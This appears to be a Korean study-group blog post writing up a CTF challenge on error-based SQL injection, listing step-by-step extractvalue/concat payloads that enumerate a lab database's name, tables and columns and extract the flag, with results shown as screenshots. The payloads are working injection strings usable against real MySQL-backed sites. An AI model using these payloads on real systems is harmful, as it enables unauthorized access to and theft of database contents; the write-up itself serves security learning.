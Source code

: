 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[CTF] CTF 문제 풀이: Error Based SQL Injection"
excerpt: "모의해킹 취업반 스터디 7기 7주차"

date: 2024-11-28
last_modified_at: 

tags: [TIL, WEB]
---
```


# Error Based SQL Injection
## START
1. normaltic
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-1.png?raw=true)
1. normaltic'
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-2.png?raw=true)
1. normaltic' and extractvalue('1', (concat(0x3a, 'test'))) #
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-3.png?raw=true)

## DATABASE
1. normaltic' and extractvalue('1', (concat(0x3a, database()))) #
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-4.png?raw=true)

## TABLE
1. normaltic' and extractvalue('1', (concat(0x3a, select table_name from information_schema.tables where table_schema = 'errSqli' limit 0, 1))) #
-> X
1. normaltic' and extractvalue('1', (concat(0x3a, (select database())))) #
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-4.png?raw=true)
1. normaltic' and extractvalue('1', (concat(0x3a, (select table_name from information_schema.tables where table_schema = 'errSqli' limit 0, 1)))) #
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-5.png?raw=true)
flagTable
1. normaltic' and extractvalue('1', (concat(0x3a, (select count(table_name) from information_schema.tables where table_schema = 'errSqli')))) #
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-6.png?raw=true)
1. normaltic' and extractvalue('1', (concat(0x3a, (select table_name from information_schema.tables where table_schema = 'errSqli' limit 1, 1)))) #
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-7.png?raw=true)
1. normaltic' and extractvalue('1', (concat(0x3a, (select table_name from information_schema.tables where table_schema = 'errSqli' limit 2, 1)))) #
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-8.png?raw=true)
plusFlag_Table

## COLUMN
1. normaltic' and extractvalue('1', (concat(0x3a, (select count(column_name) from information_schema.columns where table_name = 'flagTable')))) #
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-9.png?raw=true)
1. normaltic' and extractvalue('1', (concat(0x3a, (select column_name from information_schema.columns where table_name = 'flagTable' limit 0, 1)))) #
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-10.png?raw=true)
idx
1. normaltic' and extractvalue('1', (concat(0x3a, (select column_name from information_schema.columns where table_name = 'flagTable' limit 1, 1)))) #
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-11.png?raw=true)
flag

## DATA
1. normaltic' and extractvalue('1', (concat(0x3a, (select count(flag) from flagTable)))) #
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-12.png?raw=true)
1. normaltic' and extractvalue('1', (concat(0x3a, (select flag from flagTable)))) #
![alt text](https://cdn.jsdelivr.net/gh/aliquis-facio/aliquis-facio.github.io@master/_image/2024-11-28-13.png?raw=true)